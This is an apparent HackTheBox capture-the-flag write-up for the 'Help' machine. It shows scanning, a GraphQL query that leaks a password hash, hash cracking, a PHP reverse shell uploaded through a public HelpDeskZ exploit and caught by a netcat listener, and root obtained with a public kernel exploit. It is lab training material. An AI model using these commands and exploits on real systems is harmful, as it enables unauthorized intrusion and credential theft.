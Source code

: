 # HackTheBox Help

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.121
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 22,80,3000

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.121 -p22,80,3000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 15:27 +07
Nmap scan report for 10.10.10.121
Host is up (0.27s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.80 seconds
```

### Help Desk Software

Port 80 is apache service, after enum hidden uri in with gobuster, there is a Help Desk Software in `/support`

```
[+] Files and directories
gobuster dir -k -u http://10.10.10.121:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
/support              (Status: 301) [Size: 314] [--> http://10.10.10.121/support/]
```

![](images/2.png)

After review the [source code](https://github.com/evolutionscript/HelpDeskZ-1.0) of HelpDeskZ, I go to `/UPGRADING.txt` to check the version.

```
┌──(Hades㉿10.10.14.6)-[1.1:33.7]~/scripting
└─$ curl 10.10.10.121/support/UPGRADING.txt
Welcome to HelpDeskZ 1.0.2
==========================
```

Search public exploit, there are 2 exploit for HelpDeskZ 1.0.2

```
┌──(Hades㉿10.10.14.6)-[1.1:32.7]~/scripting
└─$ searchsploit HelpDeskZ 1.0.2
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                            | php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized F | php/webapps/41200.py
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Node.js Express API

Checking port 3000, it return message guide user Shiv `find the credentials with given query`

```
┌──(Hades㉿10.10.14.6)-[1.1:32.7]~/scripting
└─$ curl 10.10.10.121:3000                 
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

Based on result of `nmap`, Port 3000 is `Node.js Express framework`. After searching, I found [Running an Express GraphQL Server](https://graphql.org/graphql-js/running-an-express-graphql-server/) and defind Graphql at `http://localhost:4000/graphql` in the documents.

```
┌──(Hades㉿10.10.14.6)-[1.1:36.7]~/scripting
└─$ curl 10.10.10.121:3000/graphql
GET query missing.
```

Add query and grab a banner

```
┌──(Hades㉿10.10.14.6)-[1.1:32.8]~/scripting
└─$ curl '10.10.10.121:3000/graphql?query=\{__schema\{types\{name,fields\{name\}\}\}\}' --silent | python -m json.tool
{
    "data": {
        "__schema": {
            "types": [
                {
                    "fields": [
                        {
                            "name": "user"
                        }
                    ],
                    "name": "Query"
                },
                {
                    "fields": [
                        {
                            "name": "username"
                        },
                        {
                            "name": "password"
                        }
                    ],
                    "name": "User"
                },
<snip>
```

Using grabhql query, I got the value of username and password

```
┌──(Hades㉿10.10.14.6)-[1.1:32.6]~/scripting
└─$ curl '10.10.10.121:3000/graphql?query=\{user\{username,password\}\}' --silent | python -m json.tool 
{
    "data": {
        "user": {
            "password": "5d3c93182bb20f07b994a7f617e99cff",
            "username": "helpme@helpme.com"
        }
    }
}
```

Cracking md5 hash with john

```
┌──(Hades㉿10.10.14.6)-[1.1:32.7]~/walkthrough/hackthebox/help
└─$ john hash --wordlist=/home/kali/directory/rockyou.txt --format=raw-md5
<snip>
godhelpmeplz     (?)
<snip>
```

Login successfully to HelpDeskZ at port 80.

![](images/3.png)

## Foothold

### HelpDeskZ File Upload

Follow exploit `php/webapps/40300.py`. First, upload reverse shell php to server at url `http://10.10.10.121/support/?v=submit_ticket&action=displayForm`

![](images/4.png)

Trigger file shell at `/uploads/tickets/` using exploit `40300.py`.

```
┌──(Hades㉿10.10.14.6)-[1.1:27.2]~/walkthrough/hackthebox/help
└─$ python 40300.py 'http://10.10.10.121/support/uploads/tickets/' php-reverse-shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
<snip>
http://10.10.10.121/support/uploads/tickets/014a4af342600e47719c9c6eb22c483e.php
```

At listener, I have reverse shell

```
┌──(Hades㉿10.10.14.6)-[1.1:26.0]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.121] 60166
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 03:44:05 up  1:40,  0 users,  load average: 0.09, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
```

### (Authenticated) SQL Inj



## Privilege Escalation

### Linux Kernel < 4.4.0-116

Checking kernel, server is using Linux Kernel 4.4.0-116.

```
help@help:/tmp$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Search public exploit and I have `linux/local/44298.c`

```
┌──(Hades㉿10.10.14.6)-[1.1:27.2]~/walkthrough
└─$ searchsploit 4.4.0-116
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escala | linux/local/44298.c
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Compile exploit `linux/local/44298.c` and run it in the server, I got root.

```
help@help:/tmp$ gcc -o 44298 44298.c 
help@help:/tmp$ ./44298 
task_struct = ffff88003a99b800
uidptr = ffff88001ba61984
spawning root shell
root@help:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
```